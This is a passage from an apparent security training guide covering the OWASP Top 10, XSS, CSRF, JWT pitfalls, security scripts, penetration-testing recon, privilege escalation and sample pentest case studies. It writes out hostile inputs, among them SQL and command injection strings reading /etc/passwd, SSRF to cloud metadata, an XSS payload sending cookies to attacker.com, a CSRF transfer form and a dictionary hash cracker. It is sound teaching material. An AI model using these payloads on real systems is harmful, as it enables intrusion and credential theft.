**Detection:** Test every endpoint with different user roles. Change IDs, UUIDs, filenames in requests.

**Remediation:** Server-side authorization checks on every request. Never rely on client-side hiding.

### A02: Cryptographic Failures

**What:** Failures related to cryptography — weak algorithms, missing encryption, exposed keys.

**Example:**

```python
# BAD: Storing credit card numbers in plaintext
user.credit_card = request.form['cc_number']

# BAD: Using MD5 for passwords
hash = md5(password)

# GOOD: Encrypt sensitive data at rest, hash passwords with bcrypt
user.credit_card_encrypted = encrypt(request.form['cc_number'], key)
user.password_hash = bcrypt.hashpw(password, bcrypt.gensalt())
```

**Detection:** Search code for hardcoded keys, check for HTTP (not HTTPS), inspect cookie flags.

### A03: Injection

**What:** Untrusted data sent to an interpreter as part of a command or query.

**SQL Injection Example:**

```
# Vulnerable login form
Username: admin' OR '1'='1' --
Password: anything

# Resulting query:
SELECT * FROM users WHERE username='admin' OR '1'='1' --' AND password='anything'
# Returns admin row because '1'='1' is always true
```

**Command Injection Example:**

```
# Vulnerable ping utility
GET /tools/ping?host=8.8.8.8; cat /etc/passwd

# Server executes:
ping -c 4 8.8.8.8; cat /etc/passwd
```

**Detection:** Input single quote (`'`), double quote (`"`), semicolon (`;`). Use Burp Intruder with injection payloads.

**Remediation:** Parameterized queries (prepared statements), input validation, least privilege DB accounts, avoid shell execution.

| Injection Type | Target | Payload Example |
|----------------|--------|-----------------|
| SQLi | Database | `' OR 1=1--` |
| Command | OS shell | `; whoami` |
| LDAP | Directory | `*)(uid=*))(|(uid=*` |
| XPath | XML | `' or '1'='1` |
| Template (SSTI) | Template engine | `{{7*7}}` |

### A04: Insecure Design

**What:** Missing or ineffective security controls by design — not implementation bugs but architectural flaws.

**Examples:**
- Password reset that only asks for email (no token verification)
- Rate limiting absent on login (unlimited brute force by design)
- No account lockout mechanism
- "Security questions" using publicly available info

**Remediation:** Threat modeling during design phase. Security user stories. Abuse case testing.

### A05: Security Misconfiguration

**What:** Missing hardening, default credentials, verbose errors, unnecessary features enabled.

**Examples:**

```
# Default admin credentials
admin:admin on router web panel

# Verbose error revealing stack trace
Error: org.postgresql.util.PSQLException: Connection to db.internal:5432 refused
  at com.app.Database.connect(Database.java:42)

# Directory listing enabled
GET /backup/ → Lists all backup files including database dumps
```

**Checklist:**

| Check | Command/Method |
|-------|------------------|
| Default creds | Try admin:admin, root:root |
| Directory listing | Browse /images/, /backup/, /admin/ |
| HTTP methods | OPTIONS, TRACE enabled |
| Error messages | Trigger errors, read responses |
| Unnecessary services | nmap scan for unexpected ports |

### A06: Vulnerable and Outdated Components

**What:** Using libraries, frameworks, or OS components with known vulnerabilities.

**Detection:**

```bash
# Scan dependencies
npm audit
pip-audit
trivy image myapp:latest
nuclei -u https://target.com -t cves/
```

**Remediation:** Dependency inventory (SBOM), automated scanning in CI/CD, patch management process.

### A07: Identification and Authentication Failures

**What:** Weak authentication — credential stuffing, weak passwords, session issues, missing MFA.

**Examples:**
- No MFA on admin panel
- Session token in URL: `GET /dashboard?sessionid=abc123`
- Password policy allows "123456"
- Username enumeration: "User not found" vs "Wrong password"

**Remediation:** MFA everywhere, strong password policy, secure session management, rate limiting, generic error messages.

### A08: Software and Data Integrity Failures

**What:** Code and infrastructure that does not protect against integrity violations — insecure CI/CD, unsigned updates, insecure deserialization.

**Example — Insecure Deserialization:**

```python
# Python pickle — NEVER deserialize untrusted data
import pickle
data = request.get_data()
obj = pickle.loads(data)  # Attacker crafts malicious pickle → RCE
```

**Remediation:** Sign software updates, verify checksums, avoid deserializing untrusted input, secure CI/CD pipeline.

### A09: Security Logging and Monitoring Failures

**What:** Insufficient logging, detection, and response to breaches.

**What to log:**

| Event | Fields |
|-------|--------|
| Login success/failure | username, source IP, timestamp, user-agent |
| Access control failure | user, resource, action, timestamp |
| Input validation failure | field, value (sanitized), source IP |
| Admin actions | user, action, target, timestamp |
| Application errors | error type, stack trace (internal only) |

**What NOT to log:** Passwords, session tokens, credit card numbers, PII (unless required and protected).

### A10: Server-Side Request Forgery (SSRF)

**What:** Application fetches remote resources without validating the user-supplied URL, allowing attacker to reach internal services.

**Example:**

```
# Application has "fetch URL" feature
POST /api/fetch
{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}

# Server fetches AWS metadata → attacker obtains IAM credentials
```

**Internal targets:** `127.0.0.1`, `169.254.169.254` (cloud metadata), `10.0.0.0/8`, `file:///etc/passwd`

**Remediation:** Allowlist valid domains, block private IP ranges, disable unnecessary URL schemes.

---

## Cross-Site Scripting (XSS)

| Type | Where Payload Executes | Example |
|------|------------------------|---------|
| **Reflected** | Immediate response | `?search=<script>alert(1)</script>` |
| **Stored** | Saved in DB, shown to others | Comment field with `<script>` |
| **DOM-based** | Client-side JS processes input | `location.hash` injected into `innerHTML` |

**Impact:** Cookie theft, session hijacking, keylogging, defacement, phishing within site.

**Payload examples (for authorized testing only):**

```html
<script>alert(document.domain)</script>

<svg onload=alert(1)>
"><script>fetch('https://attacker.com/steal?c='+document.cookie)</script>
```

**Remediation:** Output encoding (context-aware), Content-Security-Policy headers, HttpOnly cookies.

---

## Cross-Site Request Forgery (CSRF)

**What:** Attacker tricks authenticated user into performing unwanted actions.

```html
<!-- Attacker's page — transfers money when victim visits -->
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="10000">
</form>
<script>document.forms[0].submit()</script>
```

**Remediation:** CSRF tokens (synchronizer token pattern), SameSite cookie attribute, verify Origin/Referer headers.

---

## Security HTTP Headers

| Header | Value | Purpose |
|--------|-------|---------|
| `Strict-Transport-Security` | `max-age=31536000; includeSubDomains` | Force HTTPS |
| `Content-Security-Policy` | `default-src 'self'; script-src 'self'` | Prevent XSS |
| `X-Content-Type-Options` | `nosniff` | Prevent MIME sniffing |
| `X-Frame-Options` | `DENY` | Prevent clickjacking |
| `Referrer-Policy` | `strict-origin-when-cross-origin` | Control referrer leakage |
| `Permissions-Policy` | `camera=(), microphone=()` | Restrict browser features |
| `Cache-Control` | `no-store` | Prevent caching sensitive pages |

```bash
# Check headers
curl -I https://target.com
# Or
python3 -c "import requests; r=requests.head('https://target.com'); [print(f'{k}: {v}') for k,v in r.headers.items()]"
```

---

## Cookies and Session Security

| Attribute | Purpose | Recommended |
|-----------|---------|-------------|
| `Secure` | Only sent over HTTPS | Always set |
| `HttpOnly` | Not accessible via JavaScript | Always set for session cookies |
| `SameSite` | CSRF protection | `Strict` or `Lax` |
| `Path` | Scope to specific paths | Restrict to app path |
| `Domain` | Scope to domain | Do not over-broaden |
| `Max-Age` / `Expires` | Session timeout | Set reasonable timeout |

**Bad session cookie:**

```
Set-Cookie: sessionid=abc123; Path=/
```

**Good session cookie:**

```
Set-Cookie: sessionid=abc123; Path=/; Secure; HttpOnly; SameSite=Strict; Max-Age=3600
```

---

## JWT Pitfalls

JWT (JSON Web Token) structure: `header.payload.signature`

```json
// Header
{"alg": "HS256", "typ": "JWT"}

// Payload
{"sub": "1234", "name": "Alice", "role": "user", "exp": 1721500000}
```

| Pitfall | Attack | Fix |
|---------|--------|-----|
| `alg: none` | Remove signature verification | Reject `none` algorithm |
| Algorithm confusion | RS256 → HS256 with public key as HMAC secret | Whitelist expected algorithm |
| Weak secret | Brute force HS256 secret | Use 256+ bit random secret |
| No expiration | Token valid forever | Set short `exp`, implement refresh |
| Sensitive data in payload | Base64 is not encryption | Never put secrets in JWT payload |
| Token in URL | Logged in server/proxy logs | Send in Authorization header only |

```bash
# Decode JWT (no verification — for analysis only)
echo "eyJhbGciOiJIUzI1NiIs..." | cut -d. -f2 | base64 -d 2>/dev/null
```

---

## Burp Suite Workflow Case Study

**Scenario:** Authorized test of `shop.example.com` e-commerce application.

### Phase 1: Mapping

1. Configure browser proxy to Burp (127.0.0.1:8080)
2. Browse entire application: register, login, browse products, add to cart, checkout
3. Review Target → Site map for all discovered endpoints
4. Set scope: `https://shop.example.com`

### Phase 2: Passive Analysis

1. Review HTTP History for sensitive data in responses
2. Check security headers on all responses
3. Note cookie attributes on session cookies
4. Identify API endpoints vs HTML pages

### Phase 3: Active Testing

```
Test: IDOR on order endpoint
1. Login as user1@test.com, place order #5001
2. In Repeater: GET /api/orders/5001 → 200 OK (authorized)
3. Change to GET /api/orders/5002 → 200 OK with user2's order (VULNERABILITY FOUND)
4. Document: severity High, evidence screenshots, remediation
```

```
Test: SQL injection on search
1. Search for: test' OR '1'='1
2. Response shows all products (possible SQLi)
3. Confirm with: test' AND '1'='2 → empty results
4. Send to Intruder with SQLi payload list for extraction
```

### Phase 4: Documentation

| Finding | Severity | Endpoint | Evidence |
|---------|----------|----------|----------|
| IDOR on orders | High | GET /api/orders/{id} | Screenshot + request/response |
| Missing CSP | Low | All pages | Header absent |
| Session not expiring | Medium | Cookie analysis | No Max-Age set |

> **Never Forget:** Web app security is about **testing every input on every endpoint with every role**. Automated scanners find 30%; manual testing finds the rest.

---

# Part 7: Scripting for Security

## Bash Scripts

### Port Scan Wrapper

```bash
#!/bin/bash
# portscan.sh — Simple TCP connect scan wrapper
# Usage: ./portscan.sh <target> <start_port> <end_port>

TARGET="${1:?Usage: $0 <target> <start_port> <end_port>}"
START="${2:-1}"
END="${3:-1024}"
TIMEOUT=1
OUTPUT="scan_${TARGET}_$(date +%Y%m%d).txt"

echo "Scanning $TARGET ports $START-$END" | tee "$OUTPUT"
echo "Started: $(date -Iseconds)" >> "$OUTPUT"

for port in $(seq "$START" "$END"); do
    (echo >/dev/tcp/"$TARGET"/"$port") 2>/dev/null && \
        echo "OPEN: $port" | tee -a "$OUTPUT"
done

echo "Finished: $(date -Iseconds)" >> "$OUTPUT"
echo "Results saved to $OUTPUT"
```

**Security use case:** Quick authorized port scan without nmap. Document open ports during assessment.

### Log Parser — Failed SSH Attempts

```bash
#!/bin/bash
# ssh_failures.sh — Analyze failed SSH login attempts
# Usage: ./ssh_failures.sh [logfile]

LOG="${1:-/var/log/auth.log}"
REPORT="ssh_failure_report_$(date +%Y%m%d).txt"

{
    echo "=== SSH Failure Report ==="
    echo "Generated: $(date -Iseconds)"
    echo "Source: $LOG"
    echo ""
    echo "=== Top 20 Attacking IPs ==="
    grep "Failed password" "$LOG" \
        | awk '{print $(NF-3)}' \
        | sort | uniq -c | sort -rn | head -20
    echo ""
    echo "=== Top 10 Targeted Usernames ==="
    grep "Failed password" "$LOG" \
        | awk '{print $(NF-5)}' \
        | sort | uniq -c | sort -rn | head -10
    echo ""
    echo "=== Successful Logins (last 50) ==="
    grep "Accepted" "$LOG" | tail -50
    echo ""
    echo "=== Total Failed Attempts ==="
    grep -c "Failed password" "$LOG"
} > "$REPORT"

echo "Report written to $REPORT"
```

### Backup Integrity Checker

```bash
#!/bin/bash
# backup_check.sh — Verify backup integrity via checksums
# Usage: ./backup_check.sh <backup_dir> <baseline_file>

BACKUP_DIR="${1:?Usage: $0 <backup_dir> <baseline_file>}"
BASELINE="${2:?Usage: $0 <backup_dir> <baseline_file>}"
TIMESTAMP=$(date +%Y%m%d_%H%M%S)
CURRENT="/tmp/checksums_${TIMESTAMP}.txt"
DIFF_REPORT="integrity_diff_${TIMESTAMP}.txt"

find "$BACKUP_DIR" -type f -exec sha256sum {} + | sort > "$CURRENT"

if [ ! -f "$BASELINE" ]; then
    echo "No baseline found. Creating: $BASELINE"
    cp "$CURRENT" "$BASELINE"
    exit 0
fi

diff "$BASELINE" "$CURRENT" > "$DIFF_REPORT" 2>&1

if [ -s "$DIFF_REPORT" ]; then
    echo "INTEGRITY VIOLATION DETECTED"
    echo "Changes:"
    cat "$DIFF_REPORT"
    exit 1
else
    echo "Integrity verified: all files match baseline"
    rm -f "$DIFF_REPORT"
    exit 0
fi
```

---

## Python Scripts

### HTTP Security Header Checker

```python
#!/usr/bin/env python3
"""check_headers.py — Check security headers on a URL."""
import sys
import requests

SECURITY_HEADERS = {
    "Strict-Transport-Security": "HSTS — forces HTTPS",
    "Content-Security-Policy": "CSP — prevents XSS",
    "X-Content-Type-Options": "Prevents MIME sniffing",
    "X-Frame-Options": "Prevents clickjacking",
    "Referrer-Policy": "Controls referrer information",
    "Permissions-Policy": "Restricts browser features",
}

def check_url(url: str) -> None:
    try:
        resp = requests.get(url, timeout=10, allow_redirects=True)
    except requests.RequestException as e:
        print(f"Error connecting to {url}: {e}")
        return

    print(f"URL: {resp.url}")
    print(f"Status: {resp.status_code}")
    print(f"\n{'Header':<35} {'Present':<10} Description")
    print("-" * 80)

    for header, description in SECURITY_HEADERS.items():
        present = "YES" if header in resp.headers else "MISSING"
        value = resp.headers.get(header, "—")
        print(f"{header:<35} {present:<10} {description}")
        if present == "YES":
            print(f"  Value: {value[:80]}")

    # Check cookies
    for cookie in resp.cookies:
        flags = []
        if cookie.secure:
            flags.append("Secure")
        # Note: httpx/requests doesn't expose HttpOnly directly from Set-Cookie
        print(f"\nCookie: {cookie.name}")
        print(f"  Secure: {cookie.secure}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <url>")
        sys.exit(1)
    check_url(sys.argv[1])
```

### Simple Port Scanner (Socket)

```python
#!/usr/bin/env python3
"""portscan.py — Basic TCP connect scanner."""
import socket
import sys
from concurrent.futures import ThreadPoolExecutor, as_completed

def scan_port(host: str, port: int, timeout: float = 1.0) -> tuple[int, bool]:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(timeout)
    try:
        result = sock.connect_ex((host, port))
        return port, result == 0
    finally:
        sock.close()

def main():
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <host> [start_port] [end_port]")
        sys.exit(1)

    host = sys.argv[1]
    start = int(sys.argv[2]) if len(sys.argv) > 2 else 1
    end = int(sys.argv[3]) if len(sys.argv) > 3 else 1024

    print(f"Scanning {host} ports {start}-{end}")
    open_ports = []

    with ThreadPoolExecutor(max_workers=50) as executor:
        futures = {executor.submit(scan_port, host, p): p for p in range(start, end + 1)}
        for future in as_completed(futures):
            port, is_open = future.result()
            if is_open:
                open_ports.append(port)
                print(f"  OPEN: {port}")

    print(f"\nScan complete. {len(open_ports)} open ports found.")
    if open_ports:
        print(f"Open ports: {sorted(open_ports)}")

if __name__ == "__main__":
    main()
```

### Scapy Introduction — Packet Crafting

```python
#!/usr/bin/env python3
"""scapy_intro.py — Basic packet crafting with scapy (requires root)."""
from scapy.all import IP, ICMP, TCP, sr1, send

# Send ICMP ping
packet = IP(dst="192.168.56.20") / ICMP()
reply = sr1(packet, timeout=2, verbose=0)
if reply:
    print(f"Reply from {reply.src}: ICMP type={reply.type} code={reply.code}")
else:
    print("No reply (host down or filtered)")

# TCP SYN scan single port
syn = IP(dst="192.168.56.20") / TCP(dport=22, flags="S")
resp = sr1(syn, timeout=2, verbose=0)
if resp and resp.haslayer(TCP):
    flags = resp[TCP].flags
    if flags == 0x12:  # SYN-ACK
        print("Port 22: OPEN")
    elif flags == 0x14:  # RST-ACK
        print("Port 22: CLOSED")
```

**Note:** Scapy requires root privileges and should only be used on authorized networks.

### Password Strength Checker

```python
#!/usr/bin/env python3
"""password_check.py — Evaluate password strength (educational)."""
import re
import sys

def check_password(password: str) -> dict:
    score = 0
    feedback = []

    if len(password) >= 12:
        score += 2
    elif len(password) >= 8:
        score += 1
    else:
        feedback.append("Too short (minimum 12 recommended)")

    if re.search(r"[a-z]", password):
        score += 1
    else:
        feedback.append("Add lowercase letters")

    if re.search(r"[A-Z]", password):
        score += 1
    else:
        feedback.append("Add uppercase letters")

    if re.search(r"[0-9]", password):
        score += 1
    else:
        feedback.append("Add numbers")

    if re.search(r"[^a-zA-Z0-9]", password):
        score += 1
    else:
        feedback.append("Add special characters")

    common = {"password", "123456", "admin", "letmein", "qwerty"}
    if password.lower() in common:
        score = 0
        feedback.append("Common password detected")

    strength = {0: "Very Weak", 1: "Weak", 2: "Weak", 3: "Fair",
                4: "Good", 5: "Strong", 6: "Very Strong"}.get(score, "Unknown")

    return {"score": score, "strength": strength, "feedback": feedback}

if __name__ == "__main__":
    pwd = sys.argv[1] if len(sys.argv) > 1 else input("Password: ")
    result = check_password(pwd)
    print(f"Strength: {result['strength']} (score: {result['score']}/6)")
    for item in result["feedback"]:
        print(f"  - {item}")
```

### Educational Hash Cracker (Dictionary Attack)

```python
#!/usr/bin/env python3
"""
hash_crack.py — Educational dictionary attack against unsalted hashes.
Demonstrates why strong hashing (bcrypt) and salting matter.
ONLY use on hashes you created in your lab.
"""
import hashlib
import sys

def crack_md5(target_hash: str, wordlist_path: str) -> str | None:
    target_hash = target_hash.lower().strip()
    with open(wordlist_path, "r", errors="ignore") as f:
        for line in f:
            word = line.strip()
            if hashlib.md5(word.encode()).hexdigest() == target_hash:
                return word
    return None

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} <md5_hash> <wordlist>")
        print("Example: Create hash with: echo -n 'password123' | md5sum")
        sys.exit(1)

    result = crack_md5(sys.argv[1], sys.argv[2])
    if result:
        print(f"Found: {result}")
    else:
        print("Not found in wordlist")
```

> **Never Forget:** Scripts automate repetitive security tasks. **Always add error handling, logging, and authorization checks** before running against any target.

---

## PowerShell for Active Directory Basics (Brief)

```powershell
# List domain users (requires domain access)
Get-ADUser -Filter * -Properties LastLogonDate | Select Name, LastLogonDate

# Find users with password never expires
Get-ADUser -Filter {PasswordNeverExpires -eq $true} -Properties PasswordNeverExpires

# Check group membership
Get-ADGroupMember -Identity "Domain Admins"

# Find computers in domain
Get-ADComputer -Filter * | Select Name, DNSHostName, Enabled

# Check for Kerberoastable accounts (SPNs set)
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# Recent logon events (Event ID 4624)
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4624} -MaxEvents 20 |
    Select-Object TimeCreated, @{N='User';E={$_.Properties[5].Value}},
                  @{N='SourceIP';E={$_.Properties[18].Value}}
```

| Cmdlet | Purpose |
|--------|---------|
| `Get-ADUser` | Query user accounts |
| `Get-ADGroup` | Query groups |
| `Get-ADComputer` | Query computer objects |
| `Get-WinEvent` | Read Windows event logs |
| `Get-Acl` | Check permissions on AD objects |

**Security use case:** AD auditing during internal assessments and incident response on Windows domains.

---

# Part 8: Ethical Hacking & Penetration Testing

## PTES (Penetration Testing Execution Standard) Phases



| Phase | Activities | Deliverables |
|-------|------------|--------------|
| Pre-engagement | Scope, ROE, legal agreements | Signed SOW, ROE document |
| Intelligence Gathering | OSINT, DNS, employee info | Recon report |
| Threat Modeling | Attack surface mapping | Threat model diagram |
| Vulnerability Analysis | Scanning, manual testing | Vulnerability list |
| Exploitation | Prove impact of vulns | Evidence screenshots, logs |
| Post-Exploitation | Pivot, escalate, persist (in scope) | Lateral movement map |
| Reporting | Exec + technical reports | Final report, remediation guidance |

---

## Reconnaissance

### Passive Recon (No Direct Target Contact)

| Tool/Technique | Data Gathered |
|----------------|---------------|
| WHOIS lookup | Domain registration, contacts |
| DNS records (public) | Subdomains, mail servers, SPF |
| Certificate transparency (crt.sh) | Subdomains from SSL certs |
| Google dorking | Exposed files, admin panels |
| Shodan/Censys | Internet-facing services |
| Wayback Machine | Historical site versions |
| LinkedIn/social media | Employee names, tech stack hints |
| GitHub search | Leaked credentials, source code |

```bash
# Passive DNS enumeration
whois example.com
dig example.com ANY
dig example.com MX +short

# Subdomain enumeration via certificate transparency
curl -s "https://crt.sh/?q=%25.example.com&output=json" | jq -r '.[].name_value' | sort -u

# theHarvester (OSINT tool)
theHarvester -d example.com -b google,bing,linkedin
```

### Active Recon (Direct Target Interaction — Requires Authorization)

```bash
# DNS zone transfer attempt
dig axfr @ns1.example.com example.com

# Network discovery
nmap -sn 10.0.0.0/24

# Service enumeration
nmap -sV -sC -p- target.example.com

# Web directory brute force
gobuster dir -u https://target.example.com -w /usr/share/wordlists/dirb/common.txt
```

> **Never Forget:** Passive recon is generally legal on public data. **Active recon requires authorization.** The line is crossed when you interact with target systems without permission.

---

## Scanning and Enumeration

### Scanning Types

| Scan Type | Command | Stealth | Speed |
|-----------|---------|---------|-------|
| Ping sweep | `nmap -sn 10.0.0.0/24` | Low | Fast |
| SYN scan | `nmap -sS -p- target` | Medium | Medium |
| Connect scan | `nmap -sT -p 1-1000 target` | Low | Medium |
| UDP scan | `nmap -sU --top-ports 20 target` | Low | Slow |
| Version scan | `nmap -sV -p 22,80,443 target` | Low | Medium |

### Service Enumeration

| Service | Port | Enumeration |
|---------|------|---------------|
| SSH | 22 | Version, auth methods: `nmap --script ssh-auth-methods` |
| HTTP/S | 80/443 | Directory brute, tech fingerprint, headers |
| SMB | 445 | Shares, users: `enum4linux`, `smbclient -L` |
| DNS | 53 | Zone transfer, reverse lookup |
| SMTP | 25 | User enumeration: `VRFY`, `EXPN` |
| LDAP | 389 | Users, groups: `ldapsearch` |
| MySQL | 3306 | Version, anonymous access |
| RDP | 3389 | NLA status, bluekeep check |

```bash
# SMB enumeration
enum4linux -a 192.168.56.30
smbclient -L //192.168.56.30 -N

# SNMP enumeration (community string "public")
snmpwalk -v2c -c public 192.168.56.20
```

---

## Vulnerability Assessment vs Penetration Test

| Aspect | Vulnerability Assessment | Penetration Test |
|--------|-------------------------|------------------|
| Goal | Find vulnerabilities | Exploit vulnerabilities to prove impact |
| Depth | Automated scanning + manual verification | Full attack simulation |
| Exploitation | No (or minimal) | Yes, within scope |
| Output | List of vulns with severity | Proof of compromise + business impact |
| Frequency | Monthly/quarterly | Annually or after major changes |
| Skill level | Scanner + analyst | Advanced offensive skills |
| Cost | Lower | Higher |

---

## Exploitation Concepts (High Level)

Exploitation proves a vulnerability is **real and impactful**, not just theoretical.

| Concept | Description |
|---------|-------------|
| **Vulnerability** | Weakness in system (CVE, misconfiguration) |
| **Exploit** | Code or technique that triggers the vulnerability |
| **Payload** | Code delivered after exploitation (shell, meterpreter) |
| **Shell** | Command-line access to target system |
| **Reverse shell** | Target connects back to attacker (bypasses firewalls) |
| **Bind shell** | Attacker connects to listening port on target |

**Categories (awareness, not step-by-step):**

| Category | Example Vulnerabilities |
|----------|------------------------|
| Remote code execution | Log4Shell, Shellshock |
| Privilege escalation | Kernel exploits, misconfigured SUID |
| Authentication bypass | Default creds, logic flaws |
| Injection | SQLi, command injection |
| Deserialization | Java, Python, PHP object injection |

> **Never Forget:** This guide teaches **concepts**, not weaponized step-by-step malware development. Exploitation is performed only in authorized lab environments with proper ROE.

---

## Post-Exploitation

### Objectives

1. **Prove impact** — demonstrate what an attacker could access
2. **Lateral movement** — reach other systems (within scope)
3. **Privilege escalation** — gain higher access
4. **Data access** — show sensitive data exposure (without exfiltrating real data)
5. **Persistence** — demonstrate how attacker maintains access (document, then remove)

### Privilege Escalation Vectors — Linux

| Vector | Check Command |
|--------|---------------|
| SUID binaries | `find / -perm -4000 2>/dev/null` |
| Sudo misconfiguration | `sudo -l` |
| Cron jobs (writable) | `cat /etc/crontab; ls -la /etc/cron.*` |
| Kernel exploits | `uname -a` vs known CVEs |
| Writable /etc/passwd | `ls -la /etc/passwd` |
| Docker group membership | `groups` (docker group = root equivalent) |
| Capabilities | `getcap -r / 2>/dev/null` |
| PATH hijacking | Writable directories in PATH before system dirs |

### Privilege Escalation Vectors — Windows

| Vector | Check |
|--------|-------|
| Unquoted service paths | `wmic service get pathname` |
| Weak service permissions | AccessChk, PowerUp |
| AlwaysInstallElevated | Registry keys |
| Token impersonation | SeImpersonatePrivilege (PrintSpoofer, JuicyPotato) |
| Stored credentials | `cmdkey /list`, vaultcmd |
| Autologon credentials | Registry: Winlogon |
| DLL hijacking | Writable paths in service PATH |
| Kernel exploits | Systeminfo vs known CVEs |

### Pivoting

```bash
# SSH local port forward — access internal service through compromised host
ssh -L 8080:internal-server:80 user@compromised-host

# SSH dynamic SOCKS proxy — route all tools through compromised host
ssh -D 9050 user@compromised-host
proxychains nmap -sT 10.0.0.0/24

# Metasploit autoroute (authorized pentest)
# Adds route through Meterpreter session to internal network
```

---

## Reporting Templates

### Executive Summary Template

```markdown
# Penetration Test Report — Executive Summary

**Client:** [Organization Name]
**Assessment Period:** [Start Date] — [End Date]
**Classification:** CONFIDENTIAL

## Overall Risk Rating: [CRITICAL / HIGH / MEDIUM / LOW]

## Key Findings Summary

| # | Finding | Severity | Business Impact |
|---|---------|----------|-----------------|
| 1 | [Brief title] | Critical | [One sentence impact] |
| 2 | [Brief title] | High | [One sentence impact] |
| 3 | [Brief title] | Medium | [One sentence impact] |

## Scope
- In scope: [IP ranges, applications, domains]
- Out of scope: [Excluded systems]
- Testing type: [Black box / Gray box / White box]

## Recommendations (Priority Order)
1. [Most critical remediation — business language]
2. [Second priority]
3. [Third priority]

## Conclusion
[2-3 sentences: overall security posture, comparison to industry,
 most urgent actions needed]
```

### Technical Finding Template

```markdown
## Finding [N]: [Title]

| Field | Value |
|-------|-------|
| Severity | Critical / High / Medium / Low / Informational |
| CVSS Score | X.X (if applicable) |
| CWE | CWE-XXX |
| Affected Asset | [URL / IP / hostname] |
| Status | Open |

### Description
[Detailed technical description of the vulnerability]

### Evidence
[Request/response pairs, screenshots, command output]
```
POST /api/login HTTP/1.1
Host: target.com
Content-Type: application/json

{"username": "admin' OR '1'='1'--", "password": "x"}
```

Response: HTTP 200 with admin session token.

### Impact
[What an attacker could achieve: data access, account takeover, RCE]

### Remediation
1. [Specific technical fix]
2. [Additional hardening]
3. [Monitoring recommendation]

### References
- OWASP: [link]
- CWE: [link]
```

---

## Case Study 1: Web Application Pentest

**Target:** Online retail platform (authorized, gray-box)
**Scope:** `https://shop.example.com` and `https://api.shop.example.com`
**Duration:** 5 days

### Day 1: Recon and Mapping

```
Passive:
- crt.sh → discovered staging.shop.example.com, admin.shop.example.com
- WHOIS → registrar info, no sensitive leaks
- GitHub → no public repos with credentials

Active (authorized):
- nmap → 443/open (nginx), 8080/open (staging, IP-restricted)
- gobuster → /admin, /api/v1, /api/v2, /backup (403)
- Technology: React frontend, Node.js API, PostgreSQL backend
```

### Day 2: Authentication Testing

```
Finding 1: Username enumeration
- Login with valid user + wrong password → "Invalid password"
- Login with invalid user → "User not found"
- Severity: Low

Finding 2: No rate limiting on login
- 1000 attempts in 60 seconds, no lockout or CAPTCHA
- Severity: Medium

Finding 3: JWT with weak secret (found in JS bundle)
- Decoded JWT, cracked HS256 secret with hashcat
- Forged admin token → full API access
- Severity: Critical
```

### Day 3: Authorization Testing

```
Finding 4: IDOR on /api/v1/orders/{id}
- Changed order ID from 1001 to 1002 → accessed another user's order
- Severity: High

Finding 5: Missing function-level access control on /api/v1/admin/users
- Regular user token accepted on admin endpoint
- Severity: Critical
```

### Day 4: Injection and Configuration

```
Finding 6: Stored XSS in product review
- Payload: <script>alert(document.domain)</script> persisted and executed
- Severity: Medium

Finding 7: Missing security headers (CSP, HSTS, X-Frame-Options)
- Severity: Low

Finding 8: SSRF in image URL fetch feature
- Submitted http://169.254.169.254/latest/meta-data/ → server fetched it
- Severity: High
```

### Day 5: Reporting

Final report: 2 Critical, 2 High, 2 Medium, 2 Low findings.
Executive recommendation: Immediate JWT secret rotation, implement RBAC on all API endpoints, add rate limiting.

---

## Case Study 2: Internal Network Pentest

**Target:** Corporate internal network (authorized, assumed breach scenario)
**Scope:** 10.0.0.0/16 internal network
**Starting point:** Compromised workstation (provided by client)

### Phase 1: Initial Foothold Analysis

```
Provided: Standard user workstation, domain-joined
- ipconfig → 10.0.5.42, DNS: 10.0.1.10
- whoami → CORP\jsmith (standard user)
- ip route → 10.0.0.0/16 via 10.0.5.1
```

### Phase 2: Enumeration from Workstation

```bash
# Network discovery
nmap -sn 10.0.0.0/24  # Found 45 hosts

# Key findings from initial scan
10.0.1.10  — Domain Controller (DC01)
10.0.1.20  — File Server (FS01) — SMB open
10.0.2.50  — Web Server (WEB01) — HTTP/HTTPS
10.0.3.100 — Database Server (DB01) — MySQL 3306
```

```
# SMB enumeration on file server
enum4linux -a 10.0.1.20
- Shares: Public (read), IT-Tools (read for Domain Users), Backup (access denied)
- Users enumerated: 150 domain users
- Password policy: min 8 chars, no complexity requirement
```

### Phase 3: Lateral Movement

```
Vector: LLMNR/NBT-NS poisoning (Responder)
- Captured NTLMv2 hash from IT admin resolving wrong hostname
- Cracked hash offline → IT admin credentials obtained

Pivot: RDP to file server with IT admin creds
- Found: Unattended.xml with local admin password (in IT-Tools share)
- Found: Database connection strings in web config backup
```

### Phase 4: Privilege Escalation

```
On WEB01 with local admin:
- SeImpersonatePrivilege enabled
- Escalated to SYSTEM via named pipe impersonation

On DC (via stolen service account with constrained delegation):
- DCSync attack → all domain password hashes
- Full domain compromise demonstrated
```

### Phase 5: Impact Summary

| Stage | Finding | Severity |
|-------|---------|----------|
| Workstation | No EDR detected on initial host | High |
| Network | LLMNR not disabled | High |
| Credentials | Weak password policy | High |
| File share | Credentials in Unattended.xml | Critical |
| AD | Excessive service account privileges | Critical |
| AD | DCSync possible for service account | Critical |

**Time to domain admin:** 4 hours from standard user workstation.

---

## Case Study 3: Cloud Misconfiguration Assessment

**Target:** AWS environment (authorized, read-only + limited write for proof)
**Scope:** Production AWS account

### Finding 1: Public S3 Bucket

```bash
# Discovery
aws s3 ls s3://company-backups-prod --no-sign-request
# Listed files without authentication

# Impact: Customer database backups publicly accessible
# Severity: Critical
# Remediation: Block public access, enable bucket encryption, audit all buckets
```

### Finding 2: Overprivileged IAM User

```bash
# Access key found in public GitHub repo (trufflehog scan)
aws sts get-caller-identity
# Account: 123456789012, User: deploy-bot

aws iam list-attached-user-policies --user-name deploy-bot
# Policy: AdministratorAccess (full admin)

# Severity: Critical
